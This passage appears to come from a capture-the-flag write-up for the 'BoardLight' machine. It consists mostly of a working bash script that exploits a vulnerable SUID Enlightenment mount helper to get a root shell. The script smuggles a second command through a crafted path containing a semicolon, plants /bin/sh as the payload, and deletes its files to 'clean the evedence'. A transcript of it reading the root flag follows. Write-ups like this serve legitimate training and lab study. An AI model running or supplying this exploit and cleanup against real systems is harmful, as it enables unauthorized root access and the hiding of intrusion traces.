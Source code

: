 ```bash

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,\
    iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), \
    "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```

- Just make it executable and run it
- The flag is in `/root/root.txt`

```bash
larissa@boardlight:~$ ./englightenment_pe.sh
# cat /root/root.txt
<ROOT-FLAG>
```